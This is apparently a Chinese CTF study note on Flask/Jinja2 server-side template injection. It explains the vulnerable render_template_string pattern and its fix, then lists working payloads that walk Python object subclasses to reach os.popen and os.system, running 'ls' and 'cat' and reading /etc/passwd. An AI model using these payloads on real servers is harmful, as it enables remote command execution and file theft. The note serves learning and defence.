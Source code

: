 ```yaml
---
title: Flask模板注入
date: 2020-04-23 09:42:01
updated: 2020-04-23 09:42:01
categories: web
---
```




在攻防世界做到一道涉及模板注入的题<a href=" https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5408&page=1" target="_blank">Web_python_template_injection</a>，简单了解了一下模板注入<!--more-->

# 基础知识

`模板`可以理解为是一段固定好格式，并等着你来填充信息的文件，`模板注入`就是指将一串指令代替变量传入模板中让它执行

先了解了一下装饰器的概念

**装饰器**:  简单讲就是在一个函数内部定义另外一个函数,然后返回一个新的函数,即动态的给一个对象添加额外的职责。比如有一个函数func(a, b)，它的功能是求a,b的差值，我们现在想对函数功能再装饰下，求完差值后再取绝对值，但是不能在func函数内部实现，这时候就需要装饰器函数了，比如func= decorate(func)函数，将func函数作为参数传递给decorate函数，由decorate来丰富func函数，丰富完成后再返回给func,此时func的功能就丰富了。

`@` 用做函数的修饰符，可以在模块或者类的定义层内对函数进行修饰

```
def decorate(func):
    def inner(a, b):
        ret = func(a, b):
        return abs(ret)
    return inner
 @decorate
 def sub(a, b):
    return a-b
    
 print sun(3,4)
 
 =>1
```



**@app.route**

app.route装饰器作用是把函数和URL绑定

```
from flask import flask 
@app.route('/index/')
def hello_word():
    return 'hello word'
```

> 访问`http://url/index`的时候，flask会返回`Hello World`



**渲染**

- render_template      用来渲染一个指定的文件的
- render_template_string      用来渲染一个字符串



**模板**

Flask使用Jinja2渲染引擎，以`{{}}`作为变量包裹的标识符同时，这个符号包裹内还可以执行一些简单的表达式

模板引擎会对输入变量进行编码转义：

错误使用：

```
@app.route('/test/')
def test():
    code = request.args.get('id')
    html = '''
        <h3>%s</h3>
    '''%(code)
 return render_template_string(html)
```

上面这段代码直接将用户输入作为了模板，不会经过转义和过滤的步骤，我们在传入`code`时，可以用`{{}}`来包裹代码，以替代本应时参数的`id`

> http://url/?id={{代码}}



正确使用：

```
@app.route('/test/')
def test():
    code = request.args.get('id')
    return render_template_string('<h1>{{ code }}</h1>',code=code)
```



# 注入

通过Python对象的继承，用魔术方法一步步找到可利用的方法去执行。即找到父类`<type 'object'>`–>寻找子类–>找关于命令执行或者文件操作的模块

> os.system  退出状态码
> os.popen    以file形式返回输出内容

**对象的魔术方法：**

```php
__class__  返回类型所属的对象
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回该对象所继承的基类
// __base__和__mro__都是用来寻找基类的

__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
```



**步骤**

```
#测试是否存在模板注入
>>>{{1+1}}
[构造简单的payload，看服务器是否有回显]

#获取''字符串的所属对象
>>> ''.__class__
<class 'str'>

#获取str类的父类
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)

#获取object类的所有子类
>>> ''.__class__.__mro__[1].__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>...

 #找到所需的类在列表第几位（从第0位开始）
 >>>''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('命令行语句').read()
 [ popen('ls').read(),意思是得到ls的结果并读取给变量，因此它会把当前目录所有文件都打印在我们的网页上]

注：for i in enumerate(''.__class__.__mro__[-1].__subclasses__()): print i 
可用来列举类

 #读取文件内容
 >>>''.__class__.__mro__[1].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()
 
```

```
常用payload:
>>>''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
>>>''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
>>>''.__class__.__mro__[1].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()
```

包含os模块的类：

```
<class 'site._Printer'>
<class 'site.Quitter'>
```

# reference

https://zhuanlan.zhihu.com/p/26724125

https://www.liaoxuefeng.com/wiki/1016959663602400/1017451662295584#0

https://www.jianshu.com/p/b6f1aea3a2eb

https://blog.csdn.net/zss192/article/details/104200493



------

**补充下：**
内置函数：get_flashed_messages(), url_for()

url_for()
一般我们通过一个URL就可以执行到某一个函数。如果反过来，我们知道一个函数，怎么去获得这个URL呢？url_for函数就可以帮我们实现这个功能。url_for()函数接收两个及以上的参数，他接收函数名作为第一个参数，接收对应URL规则的命名参数，如果还出现其他的参数，则会添加到URL的后面作为查询参数。

get_flashed_messages()
返回之前在Flask中通过 flash() 传入的闪现信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用get_flashed_messages() 方法取出(闪现信息只能取出一次，取出后闪现信息会被清空)。